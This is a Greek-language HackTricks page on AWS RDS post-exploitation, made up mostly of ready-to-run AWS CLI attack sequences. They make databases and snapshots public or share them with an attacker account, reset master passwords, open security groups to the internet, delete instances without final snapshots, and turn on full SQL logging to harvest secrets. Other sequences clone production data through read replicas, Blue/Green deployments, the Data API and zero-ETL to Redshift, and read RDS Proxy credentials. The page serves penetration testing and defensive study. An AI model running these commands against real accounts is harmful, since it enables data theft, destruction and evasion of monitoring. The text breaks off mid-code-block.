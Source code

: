 # AWS - RDS Μετά την εκμετάλλευση

{{#include ../../../../banners/hacktricks-training.md}}

## RDS

Για περισσότερες πληροφορίες, δείτε:

{{#ref}}
../../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

Εάν ο attacker διαθέτει επαρκή δικαιώματα, μπορεί να κάνει μια **DB δημόσια προσβάσιμη** δημιουργώντας ένα snapshot της DB και στη συνέχεια μια δημόσια προσβάσιμη DB από το snapshot.
```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```
### `rds:StopDBCluster` & `rds:StopDBInstance`
Ένας attacker που έχει rds:StopDBCluster ή rds:StopDBInstance μπορεί να προκαλέσει άμεση διακοπή ενός RDS instance ή ολόκληρου cluster, προκαλώντας μη διαθεσιμότητα της βάσης δεδομένων, κομμένες συνδέσεις και διακοπή διεργασιών που εξαρτώνται από τη βάση δεδομένων.

Για να σταματήσετε μία μόνο DB instance (παράδειγμα):
```bash
aws rds stop-db-instance \
--db-instance-identifier <DB_INSTANCE_IDENTIFIER>
```
Για να σταματήσετε ολόκληρο DB cluster (παράδειγμα):
```bash
aws rds stop-db-cluster \
--db-cluster-identifier <DB_CLUSTER_IDENTIFIER>
```
### `rds:Delete*`

Ένας επιτιθέμενος στον οποίο έχει χορηγηθεί το rds:Delete* μπορεί να αφαιρέσει πόρους RDS, διαγράφοντας DB instances, clusters, snapshots, automated backups, subnet groups, parameter/option groups και σχετικά artifacts, προκαλώντας άμεση διακοπή υπηρεσίας, απώλεια δεδομένων, καταστροφή recovery points και απώλεια δικανικών στοιχείων.
```bash
# Delete a DB instance (creates a final snapshot unless you skip it)
aws rds delete-db-instance \
--db-instance-identifier <DB_INSTANCE_ID> \
--final-db-snapshot-identifier <FINAL_SNAPSHOT_ID>     # omit or replace with --skip-final-snapshot to avoid snapshot

# Delete a DB instance and skip final snapshot (more destructive)
aws rds delete-db-instance \
--db-instance-identifier <DB_INSTANCE_ID> \
--skip-final-snapshot

# Delete a manual DB snapshot
aws rds delete-db-snapshot \
--db-snapshot-identifier <DB_SNAPSHOT_ID>

# Delete an Aurora DB cluster (creates a final snapshot unless you skip)
aws rds delete-db-cluster \
--db-cluster-identifier <DB_CLUSTER_ID> \
--final-db-snapshot-identifier <FINAL_CLUSTER_SNAPSHOT_ID>   # or use --skip-final-snapshot
```
### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

Ένας επιτιθέμενος με αυτά τα δικαιώματα θα μπορούσε να **δημιουργήσει ένα snapshot μιας DB** και να το κάνει **δημόσια** **διαθέσιμο**. Στη συνέχεια, θα μπορούσε απλώς να δημιουργήσει στο δικό του λογαριασμό μια DB από εκείνο το snapshot.

Αν ο επιτιθέμενος **δεν έχει το `rds:CreateDBSnapshot`**, θα μπορούσε παρ' όλα αυτά να κάνει **άλλα** δημιουργημένα snapshots **δημόσια**.
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
### `rds:DownloadDBLogFilePortion`

Ένας επιτιθέμενος με την άδεια `rds:DownloadDBLogFilePortion` μπορεί να **download portions of an RDS instance's log files**. Εάν ευαίσθητα δεδομένα ή διαπιστευτήρια πρόσβασης καταγραφούν κατά λάθος, ο επιτιθέμενος θα μπορούσε δυνητικά να χρησιμοποιήσει αυτές τις πληροφορίες για να αυξήσει τα προνόμιά του ή να εκτελέσει μη εξουσιοδοτημένες ενέργειες.
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
**Πιθανός Αντίκτυπος**: Πρόσβαση σε ευαίσθητες πληροφορίες ή μη εξουσιοδοτημένες ενέργειες χρησιμοποιώντας leaked credentials.

### `rds:DeleteDBInstance`

Ένας επιτιθέμενος με αυτά τα δικαιώματα μπορεί να **DoS υπάρχουσες RDS instances**.
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
**Πιθανός αντίκτυπος**: Διαγραφή των υπαρχόντων RDS instances και ενδεχόμενη απώλεια δεδομένων.

### `rds:StartExportTask`

> [!NOTE]
> TODO: Δοκιμή

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί να **εξάγει ένα snapshot ενός RDS instance σε ένα S3 bucket**. Εάν ο επιτιθέμενος έχει έλεγχο του προορισμού S3 bucket, μπορεί ενδεχομένως να αποκτήσει πρόσβαση σε ευαίσθητα δεδομένα που περιέχονται στο εξαγόμενο snapshot.
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
**Πιθανός αντίκτυπος**: Πρόσβαση σε ευαίσθητα δεδομένα στο εξαχθέν snapshot.

### Αντιγραφή αυτοματοποιημένων αντιγράφων ασφαλείας μεταξύ περιοχών για κρυφή επαναφορά (`rds:StartDBInstanceAutomatedBackupsReplication`)

Κακοχρησιμοποιήστε την αντιγραφή αυτοματοποιημένων αντιγράφων ασφαλείας μεταξύ περιοχών για να αντιγράψετε αθόρυβα τα automated backups ενός instance RDS σε άλλη AWS Region και να τα επαναφέρετε εκεί. Ο επιτιθέμενος μπορεί στη συνέχεια να κάνει τη βάση δεδομένων που επαναφέρθηκε δημόσια προσβάσιμη και να επαναφέρει τον κύριο κωδικό πρόσβασης για να αποκτήσει πρόσβαση στα δεδομένα εκτός δικτύου σε μια Region που οι αμυνόμενοι ίσως δεν παρακολουθούν.

Απαιτούμενα δικαιώματα (ελάχιστα):
- `rds:StartDBInstanceAutomatedBackupsReplication` in the destination Region
- `rds:DescribeDBInstanceAutomatedBackups` in the destination Region
- `rds:RestoreDBInstanceToPointInTime` in the destination Region
- `rds:ModifyDBInstance` in the destination Region
- `rds:StopDBInstanceAutomatedBackupsReplication` (optional cleanup)
- `ec2:CreateSecurityGroup`, `ec2:AuthorizeSecurityGroupIngress` (to expose the restored DB)

Επιπτώσεις: Διατήρηση παρουσίας και εξαγωγή δεδομένων μέσω επαναφοράς αντιγράφου παραγωγικών δεδομένων σε άλλη Region και δημόσιας έκθεσής του με διαπιστευτήρια υπό έλεγχο του επιτιθέμενου.

<details>
<summary>CLI από άκρο σε άκρο (αντικαταστήστε τα placeholders)</summary>
```bash
# 1) Recon (SOURCE region A)
aws rds describe-db-instances \
--region <SOURCE_REGION> \
--query 'DBInstances[*].[DBInstanceIdentifier,DBInstanceArn,Engine,DBInstanceStatus,PreferredBackupWindow]' \
--output table

# 2) Start cross-Region automated backups replication (run in DEST region B)
aws rds start-db-instance-automated-backups-replication \
--region <DEST_REGION> \
--source-db-instance-arn <SOURCE_DB_INSTANCE_ARN> \
--source-region <SOURCE_REGION> \
--backup-retention-period 7

# 3) Wait for replication to be ready in DEST
aws rds describe-db-instance-automated-backups \
--region <DEST_REGION> \
--query 'DBInstanceAutomatedBackups[*].[DBInstanceAutomatedBackupsArn,DBInstanceIdentifier,Status]' \
--output table
# Proceed when Status is "replicating" or "active" and note the DBInstanceAutomatedBackupsArn

# 4) Restore to latest restorable time in DEST
aws rds restore-db-instance-to-point-in-time \
--region <DEST_REGION> \
--source-db-instance-automated-backups-arn <AUTO_BACKUP_ARN> \
--target-db-instance-identifier <TARGET_DB_ID> \
--use-latest-restorable-time \
--db-instance-class db.t3.micro
aws rds wait db-instance-available --region <DEST_REGION> --db-instance-identifier <TARGET_DB_ID>

# 5) Make public and reset credentials in DEST
# 5a) Create/choose an open SG permitting TCP/3306 (adjust engine/port as needed)
OPEN_SG_ID=$(aws ec2 create-security-group --region <DEST_REGION> \
--group-name open-rds-<RAND> --description open --vpc-id <DEST_VPC_ID> \
--query GroupId --output text)
aws ec2 authorize-security-group-ingress --region <DEST_REGION> \
--group-id "$OPEN_SG_ID" \
--ip-permissions IpProtocol=tcp,FromPort=3306,ToPort=3306,IpRanges='[{CidrIp=0.0.0.0/0}]'

# 5b) Publicly expose restored DB and attach the SG
aws rds modify-db-instance --region <DEST_REGION> \
--db-instance-identifier <TARGET_DB_ID> \
--publicly-accessible \
--vpc-security-group-ids "$OPEN_SG_ID" \
--apply-immediately
aws rds wait db-instance-available --region <DEST_REGION> --db-instance-identifier <TARGET_DB_ID>

# 5c) Reset the master password
aws rds modify-db-instance --region <DEST_REGION> \
--db-instance-identifier <TARGET_DB_ID> \
--master-user-password '<NEW_STRONG_PASSWORD>' \
--apply-immediately
aws rds wait db-instance-available --region <DEST_REGION> --db-instance-identifier <TARGET_DB_ID>

# 6) Connect to <TARGET_DB_ID> endpoint and validate data (example for MySQL)
ENDPOINT=$(aws rds describe-db-instances --region <DEST_REGION> \
--db-instance-identifier <TARGET_DB_ID> \
--query 'DBInstances[0].Endpoint.Address' --output text)
mysql -h "$ENDPOINT" -u <MASTER_USERNAME> -p'<NEW_STRONG_PASSWORD>' -e 'SHOW DATABASES;'

# 7) Optional: stop replication
aws rds stop-db-instance-automated-backups-replication \
--region <DEST_REGION> \
--source-db-instance-arn <SOURCE_DB_INSTANCE_ARN>
```
</details>


### Ενεργοποίηση πλήρους SQL καταγραφής μέσω DB parameter groups και exfiltrate μέσω RDS log APIs

Καταχραστείτε `rds:ModifyDBParameterGroup` με RDS log download APIs για να καταγράψετε όλες τις SQL εντολές που εκτελούνται από εφαρμογές (δεν απαιτούνται διαπιστευτήρια της DB engine). Ενεργοποιήστε την engine SQL καταγραφή και κατεβάστε τα αρχεία log μέσω `rds:DescribeDBLogFiles` και `rds:DownloadDBLogFilePortion` (ή το REST `downloadCompleteLogFile`). Χρήσιμο για τη συλλογή queries που μπορεί να περιέχουν secrets/PII/JWTs.

Απαιτούμενα δικαιώματα (ελάχιστα):
- `rds:DescribeDBInstances`, `rds:DescribeDBLogFiles`, `rds:DownloadDBLogFilePortion`
- `rds:CreateDBParameterGroup`, `rds:ModifyDBParameterGroup`
- `rds:ModifyDBInstance` (μόνο για την προσάρτηση ενός custom parameter group αν το instance χρησιμοποιεί το default)
- `rds:RebootDBInstance` (για παραμέτρους που απαιτούν reboot, π.χ. PostgreSQL)

Βήματα
1) Recon target and current parameter group
```bash
aws rds describe-db-instances \
--query 'DBInstances[*].[DBInstanceIdentifier,Engine,DBParameterGroups[0].DBParameterGroupName]' \
--output table
```
2) Βεβαιωθείτε ότι έχει επισυναφθεί ένα προσαρμοσμένο DB parameter group (δεν μπορείτε να επεξεργαστείτε το προεπιλεγμένο)
- Αν το instance ήδη χρησιμοποιεί προσαρμοσμένο group, επαναχρησιμοποιήστε το όνομά του στο επόμενο βήμα.
- Διαφορετικά, δημιουργήστε και επισυνάψτε ένα που να ταιριάζει στην engine family:
```bash
# Example for PostgreSQL 16
aws rds create-db-parameter-group \
--db-parameter-group-name ht-logs-pg \
--db-parameter-group-family postgres16 \
--description "HT logging"

aws rds modify-db-instance \
--db-instance-identifier <DB> \
--db-parameter-group-name ht-logs-pg \
--apply-immediately
# Wait until status becomes "available"
```
3) Ενεργοποιήστε λεπτομερή καταγραφή SQL
- MySQL engines (άμεσα / χωρίς επανεκκίνηση):
```bash
aws rds modify-db-parameter-group \
--db-parameter-group-name <PGNAME> \
--parameters \
"ParameterName=general_log,ParameterValue=1,ApplyMethod=immediate" \
"ParameterName=log_output,ParameterValue=FILE,ApplyMethod=immediate"
# Optional extras:
#   "ParameterName=slow_query_log,ParameterValue=1,ApplyMethod=immediate" \
#   "ParameterName=long_query_time,ParameterValue=0,ApplyMethod=immediate"
```
- PostgreSQL engines (απαιτείται επανεκκίνηση):
```bash
aws rds modify-db-parameter-group \
--db-parameter-group-name <PGNAME> \
--parameters \
"ParameterName=log_statement,ParameterValue=all,ApplyMethod=pending-reboot"
# Optional to log duration for every statement:
#   "ParameterName=log_min_duration_statement,ParameterValue=0,ApplyMethod=pending-reboot"

# Reboot if any parameter is pending-reboot
aws rds reboot-db-instance --db-instance-identifier <DB>
```
4) Αφήστε το φορτίο εργασίας να εκτελεστεί (ή δημιουργήστε ερωτήματα). Οι δηλώσεις θα γραφτούν στα engine file logs
- MySQL: `general/mysql-general.log`
- PostgreSQL: `postgresql.log`

5) Εντοπίστε και κατεβάστε τα logs (δεν απαιτούνται διαπιστευτήρια DB)
```bash
aws rds describe-db-log-files --db-instance-identifier <DB>

# Pull full file via portions (iterate until AdditionalDataPending=false). For small logs a single call is enough:
aws rds download-db-log-file-portion \
--db-instance-identifier <DB> \
--log-file-name general/mysql-general.log \
--starting-token 0 \
--output text > dump.log
```
6) Αναλύστε εκτός σύνδεσης για ευαίσθητα δεδομένα
```bash
grep -Ei "password=|aws_access_key_id|secret|authorization:|bearer" dump.log | sed 's/\(aws_access_key_id=\)[A-Z0-9]*/\1AKIA.../; s/\(secret=\).*/\1REDACTED/; s/\(Bearer \).*/\1REDACTED/' | head
```
Παράδειγμα αποδεικτικών στοιχείων (λογοκριμένα):
```text
2025-10-06T..Z    13 Query  INSERT INTO t(note) VALUES ('user=alice password=Sup3rS3cret!')
2025-10-06T..Z    13 Query  INSERT INTO t(note) VALUES ('authorization: Bearer REDACTED')
2025-10-06T..Z    13 Query  INSERT INTO t(note) VALUES ('aws_access_key_id=AKIA... secret=REDACTED')
```
Καθαρισμός
- Επαναφέρετε τις παραμέτρους στις προεπιλογές και επανεκκινήστε εάν απαιτείται:
```bash
# MySQL
aws rds modify-db-parameter-group \
--db-parameter-group-name <PGNAME> \
--parameters \
"ParameterName=general_log,ParameterValue=0,ApplyMethod=immediate"

# PostgreSQL
aws rds modify-db-parameter-group \
--db-parameter-group-name <PGNAME> \
--parameters \
"ParameterName=log_statement,ParameterValue=none,ApplyMethod=pending-reboot"
# Reboot if pending-reboot
```
Επίπτωση: Post-exploitation πρόσβαση σε δεδομένα με την καταγραφή όλων των εντολών SQL της εφαρμογής μέσω AWS APIs (no DB creds), potentially leaking secrets, JWTs, and PII.

### `rds:CreateDBInstanceReadReplica`, `rds:ModifyDBInstance`

Καταχράσου RDS read replicas για να αποκτήσεις out-of-band read access χωρίς να αγγίξεις τα credentials της primary instance. Ένας attacker μπορεί να δημιουργήσει ένα read replica από ένα production instance, να επαναφέρει το master password του replica (this does not change the primary), και προαιρετικά να εκθέσει δημόσια το replica για να exfiltrate data.

Permissions needed (minimum):
- `rds:DescribeDBInstances`
- `rds:CreateDBInstanceReadReplica`
- `rds:ModifyDBInstance`
- `ec2:CreateSecurityGroup`, `ec2:AuthorizeSecurityGroupIngress` (if exposing publicly)

Impact: Read-only access to production data via a replica with attacker-controlled credentials; lower detection likelihood as the primary remains untouched and replication continues.
```bash
# 1) Recon: find non-Aurora sources with backups enabled
aws rds describe-db-instances \
--query 'DBInstances[*].[DBInstanceIdentifier,Engine,DBInstanceArn,DBSubnetGroup.DBSubnetGroupName,VpcSecurityGroups[0].VpcSecurityGroupId,PubliclyAccessible]' \
--output table

# 2) Create a permissive SG (replace <VPC_ID> and <YOUR_IP/32>)
aws ec2 create-security-group --group-name rds-repl-exfil --description 'RDS replica exfil' --vpc-id <VPC_ID> --query GroupId --output text
aws ec2 authorize-security-group-ingress --group-id <SGID> --ip-permissions '[{"IpProtocol":"tcp","FromPort":3306,"ToPort":3306,"IpRanges":[{"CidrIp":"<YOUR_IP/32>","Description":"tester"}]}]'

# 3) Create the read replica (optionally public)
aws rds create-db-instance-read-replica \
--db-instance-identifier <REPL_ID> \
--source-db-instance-identifier <SOURCE_DB> \
--db-instance-class db.t3.medium \
--publicly-accessible \
--vpc-security-group-ids <SGID>
aws rds wait db-instance-available --db-instance-identifier <REPL_ID>

# 4) Reset ONLY the replica master password (primary unchanged)
aws rds modify-db-instance --db-instance-identifier <REPL_ID> --master-user-password 'NewStr0ng!Passw0rd' --apply-immediately
aws rds wait db-instance-available --db-instance-identifier <REPL_ID>

# 5) Connect and dump (use the SOURCE master username + NEW password)
REPL_ENDPOINT=$(aws rds describe-db-instances --db-instance-identifier <REPL_ID> --query 'DBInstances[0].Endpoint.Address' --output text)
# e.g., with mysql client:  mysql -h "$REPL_ENDPOINT" -u <MASTER_USERNAME> -p'NewStr0ng!Passw0rd' -e 'SHOW DATABASES; SELECT @@read_only, CURRENT_USER();'

# Optional: promote for persistence
# aws rds promote-read-replica --db-instance-identifier <REPL_ID>
```
Παράδειγμα αποδεικτικών στοιχείων (MySQL):
- Replica DB status: `available`, read replication: `replicating`
- Επιτυχής σύνδεση με νέο κωδικό και `@@read_only=1` που επιβεβαιώνει πρόσβαση μόνο για ανάγνωση στο replica.

### `rds:CreateBlueGreenDeployment`, `rds:ModifyDBInstance`

Καταχρήστε το RDS Blue/Green για να κλωνοποιήσετε μια παραγωγική DB σε ένα συνεχώς αναπαραγόμενο, μόνο-ανάγνωσης green περιβάλλον. Στη συνέχεια επαναφέρετε τα διαπιστευτήρια του green master για να αποκτήσετε πρόσβαση στα δεδομένα χωρίς να πειράξετε την blue (prod) instance. Αυτό είναι πιο διακριτικό από το snapshot sharing και συχνά παρακάμπτει μηχανισμούς monitoring που εστιάζουν μόνο στην πηγή.
```bash
# 1) Recon – find eligible source (non‑Aurora MySQL/PostgreSQL in the same account)
aws rds describe-db-instances \
--query 'DBInstances[*].[DBInstanceIdentifier,DBInstanceArn,Engine,EngineVersion,DBSubnetGroup.DBSubnetGroupName,PubliclyAccessible]'

# Ensure: automated backups enabled on source (BackupRetentionPeriod > 0), no RDS Proxy, supported engine/version

# 2) Create Blue/Green deployment (replicates blue->green continuously)
aws rds create-blue-green-deployment \
--blue-green-deployment-name ht-bgd-attack \
--source <BLUE_DB_ARN> \
# Optional to upgrade: --target-engine-version <same-or-higher-compatible>

# Wait until deployment Status becomes AVAILABLE, then note the green DB id
aws rds describe-blue-green-deployments \
--blue-green-deployment-identifier <BGD_ID> \
--query 'BlueGreenDeployments[0].SwitchoverDetails[0].TargetMember'

# Typical green id: <blue>-green-XXXX

# 3) Reset the green master password (does not affect blue)
aws rds modify-db-instance \
--db-instance-identifier <GREEN_DB_ID> \
--master-user-password 'Gr33n!Exfil#1' \
--apply-immediately

# Optional: expose the green for direct access (attach an SG that allows the DB port)
aws rds modify-db-instance \
--db-instance-identifier <GREEN_DB_ID> \
--publicly-accessible \
--vpc-security-group-ids <SG_ALLOWING_DB_PORT> \
--apply-immediately

# 4) Connect to the green endpoint and query/exfiltrate (green is read‑only)
aws rds describe-db-instances \
--db-instance-identifier <GREEN_DB_ID> \
--query 'DBInstances[0].Endpoint.Address' --output text

# Then connect with the master username and the new password and run SELECT/dumps
# e.g. MySQL: mysql -h <endpoint> -u <master_user> -p'Gr33n!Exfil#1'

# 5) Cleanup – remove blue/green and the green resources
aws rds delete-blue-green-deployment \
--blue-green-deployment-identifier <BGD_ID> \
--delete-target true
```
Επίπτωση: Πρόσβαση μόνο για ανάγνωση αλλά πλήρης πρόσβαση στα δεδομένα ενός κλώνου παραγωγής σχεδόν σε πραγματικό χρόνο χωρίς τροποποίηση του παραγωγικού instance. Χρήσιμο για διακριτική εξαγωγή δεδομένων και ανάλυση εκτός σύνδεσης.


### Out-of-band SQL via RDS Data API by enabling HTTP endpoint + resetting master password

Abuse Aurora to enable the RDS Data API HTTP endpoint on a target cluster, reset the master password to a value you control, and run SQL over HTTPS (no VPC network path required). Works on Aurora engines that support the Data API/EnableHttpEndpoint (e.g., Aurora MySQL 8.0 provisioned; some Aurora PostgreSQL/MySQL versions).

Δικαιώματα (ελάχιστα):
- rds:DescribeDBClusters, rds:ModifyDBCluster (or rds:EnableHttpEndpoint)
- secretsmanager:CreateSecret
- rds-data:ExecuteStatement (and rds-data:BatchExecuteStatement if used)

Επίπτωση: Παράκαμψη της τμηματοποίησης δικτύου και exfiltrate δεδομένων μέσω AWS APIs χωρίς άμεση VPC συνδεσιμότητα προς το DB.

<details>
<summary>End-to-end CLI (Aurora MySQL example)</summary>
```bash
# 1) Identify target cluster ARN
REGION=us-east-1
CLUSTER_ID=<target-cluster-id>
CLUSTER_ARN=$(aws rds describe-db-clusters --region $REGION \
--db-cluster-identifier $CLUSTER_ID \
--query 'DBClusters[0].DBClusterArn' --output text)

# 2) Enable Data API HTTP endpoint on the cluster
# Either of the following (depending on API/engine support):
aws rds enable-http-endpoint --region $REGION --resource-arn "$CLUSTER_ARN"
# or
aws rds modify-db-cluster --region $REGION --db-cluster-identifier $CLUSTER_ID \
--enable-http-endpoint --apply-immediately

# Wait until HttpEndpointEnabled is True
aws rds wait db-cluster-available --region $REGION --db-cluster-identifier $CLUSTER_ID
aws rds describe-db-clusters --region $REGION --db-cluster-identifier $CLUSTER_ID \
--query 'DBClusters[0].HttpEndpointEnabled' --output text

# 3) Reset master password to attacker-controlled value
aws rds modify-db-cluster --region $REGION --db-cluster-identifier $CLUSTER_ID \
--master-user-password 'Sup3rStr0ng!1' --apply-immediately
# Wait until pending password change is applied
while :; do
aws rds wait db-cluster-available --region $REGION --db-cluster-identifier $CLUSTER_ID
P=$(aws rds describe-db-clusters --region $REGION --db-cluster-identifier $CLUSTER_ID \
--query 'DBClusters[0].PendingModifiedValues.MasterUserPassword' --output text)
[[ "$P" == "None" || "$P" == "null" ]] && break
sleep 10
done

# 4) Create a Secrets Manager secret for Data API auth
SECRET_ARN=$(aws secretsmanager create-secret --region $REGION --name rdsdata/demo-$CLUSTER_ID \
--secret-string '{"username":"admin","password":"Sup3rStr0ng!1"}' \
--query ARN --output text)

# 5) Prove out-of-band SQL via HTTPS using rds-data
# (Example with Aurora MySQL; for PostgreSQL, adjust SQL and username accordingly)
aws rds-data execute-statement --region $REGION --resource-arn "$CLUSTER_ARN" \
--secret-arn "$SECRET_ARN" --database mysql --sql "create database if not exists demo;"
aws rds-data execute-statement --region $REGION --resource-arn "$CLUSTER_ARN" \
--secret-arn "$SECRET_ARN" --database demo --sql "create table if not exists pii(note text);"
aws rds-data execute-statement --region $REGION --resource-arn "$CLUSTER_ARN" \
--secret-arn "$SECRET_ARN" --database demo --sql "insert into pii(note) values ('token=SECRET_JWT');"
aws rds-data execute-statement --region $REGION --resource-arn "$CLUSTER_ARN" \
--secret-arn "$SECRET_ARN" --database demo --sql "select current_user(), now(), (select count(*) from pii) as row_count;" \
--format-records-as JSON
```
</details>

Σημειώσεις:
- Εάν SQL πολλαπλών δηλώσεων απορριφθεί από rds-data, εκτελέστε χωριστές κλήσεις execute-statement.
- Για engines όπου το modify-db-cluster --enable-http-endpoint δεν έχει αποτέλεσμα, χρησιμοποιήστε rds enable-http-endpoint --resource-arn.
- Βεβαιωθείτε ότι ο engine/version υποστηρίζει πραγματικά το Data API· αλλιώς HttpEndpointEnabled θα παραμείνει False.


### Συλλογή διαπιστευτηρίων DB μέσω RDS Proxy auth secrets (`rds:DescribeDBProxies` + `secretsmanager:GetSecretValue`)

Καταχραστείτε τη διαμόρφωση του RDS Proxy για να εντοπίσετε το Secret του Secrets Manager που χρησιμοποιείται για την πιστοποίηση στο backend, και στη συνέχεια διαβάστε το secret για να αποκτήσετε τα διαπιστευτήρια της βάσης δεδομένων. Πολλά περιβάλλοντα χορηγούν ευρεία δικαιώματα `secretsmanager:GetSecretValue`, καθιστώντας αυτό έναν χαμηλής τριβής pivot προς τα διαπιστευτήρια DB. Εάν το secret χρησιμοποιεί CMK, λανθασμένα περιορισμένα δικαιώματα KMS μπορεί επίσης να επιτρέψουν `kms:Decrypt`.

Απαιτούμενα δικαιώματα (ελάχιστα):
- `rds:DescribeDBProxies`
- `secretsmanager:GetSecretValue` on the referenced SecretArn
- Προαιρετικό όταν το secret χρησιμοποιεί CMK: `kms:Decrypt` on that key

Επίπτωση: Άμεση αποκάλυψη του ονόματος χρήστη/κωδικού DB που έχει ρυθμιστεί στον proxy· επιτρέπει άμεση πρόσβαση στη βάση δεδομένων ή περαιτέρω πλευρική κίνηση.

Βήματα
```bash
# 1) Enumerate proxies and extract the SecretArn used for auth
aws rds describe-db-proxies \
--query DBProxies[*].[DBProxyName,Auth[0].AuthScheme,Auth[0].SecretArn] \
--output table

# 2) Read the secret value (common over-permission)
aws secretsmanager get-secret-value \
--secret-id <SecretArnFromProxy> \
--query SecretString --output text
# Example output: {"username":"admin","password":"S3cr3t!"}
```
Εργαστήριο (ελάχιστο για αναπαραγωγή)
```bash
REGION=us-east-1
ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)
SECRET_ARN=$(aws secretsmanager create-secret \
--region $REGION --name rds/proxy/aurora-demo \
--secret-string username:admin \
--query ARN --output text)
aws iam create-role --role-name rds-proxy-secret-role \
--assume-role-policy-document Version:2012-10-17
aws iam attach-role-policy --role-name rds-proxy-secret-role \
--policy-arn arn:aws:iam::aws:policy/SecretsManagerReadWrite
aws rds create-db-proxy --db-proxy-name p0 --engine-family MYSQL \
--auth [AuthScheme:SECRETS] \
--role-arn arn:aws:iam::$ACCOUNT_ID:role/rds-proxy-secret-role \
--vpc-subnet-ids $(aws ec2 describe-subnets --filters Name=default-for-az,Values=true --query Subnets[].SubnetId --output text)
aws rds wait db-proxy-available --db-proxy-name p0
# Now run the enumeration + secret read from the Steps above
```
Καθαρισμός (εργαστήριο)
```bash
aws rds delete-db-proxy --db-proxy-name p0
aws iam detach-role-policy --role-name rds-proxy-secret-role --policy-arn arn:aws:iam::aws:policy/SecretsManagerReadWrite
aws iam delete-role --role-name rds-proxy-secret-role
aws secretsmanager delete-secret --secret-id rds/proxy/aurora-demo --force-delete-without-recovery
```
### Κρυφή συνεχιζόμενη exfiltration μέσω Aurora zero‑ETL προς Amazon Redshift (rds:CreateIntegration)

Καταχρήση της ενσωμάτωσης Aurora PostgreSQL zero‑ETL για συνεχή αναπαραγωγή των παραγωγικών δεδομένων σε ένα Redshift Serverless namespace που ελέγχετε. Με μια χαλαρή Redshift resource policy που εξουσιοδοτεί CreateInboundIntegration/AuthorizeInboundIntegration για ένα συγκεκριμένο Aurora cluster ARN, ένας attacker μπορεί να δημιουργήσει ένα σχεδόν σε πραγματικό χρόνο αντίγραφο δεδομένων χωρίς DB creds, snapshots ή network exposure.

Απαιτούμενα δικαιώματα (ελάχιστα):
- `rds:CreateIntegration`, `rds:DescribeIntegrations`, `rds:DeleteIntegration`
- `redshift:PutResourcePolicy`, `redshift:DescribeInboundIntegrations`, `redshift:DescribeIntegrations`
- `redshift-data:ExecuteStatement/GetStatementResult/ListDatabases` (to query)
- `rds-data:ExecuteStatement` (optional; to seed data if needed)

Δοκιμάστηκε σε: us-east-1, Aurora PostgreSQL 16.4 (Serverless v2), Redshift Serverless.

<details>
<summary>1) Δημιουργία Redshift Serverless namespace + workgroup</summary>
```bash
REGION=us-east-1
RS_NS_ARN=$(aws redshift-serverless create-namespace --region $REGION --namespace-name ztl-ns \
--admin-username adminuser --admin-user-password 'AdminPwd-1!' \
--query namespace.namespaceArn --output text)
RS_WG_ARN=$(aws redshift-serverless create-workgroup --region $REGION --workgroup-name ztl-wg \
--namespace-name ztl-ns --base-capacity 8 --publicly-accessible \
--query workgroup.workgroupArn --output text)
# Wait until AVAILABLE, then enable case sensitivity (required for PostgreSQL)
aws redshift-serverless update-workgroup --region $REGION --workgroup-name ztl-wg \
--config-parameters parameterKey=enable_case_sensitive_identifier,parameterValue=true
```
</details>

<details>
<summary>2) Ρύθμιση πολιτικής πόρων του Redshift ώστε να επιτρέπεται η πηγή Aurora</summary>
```bash
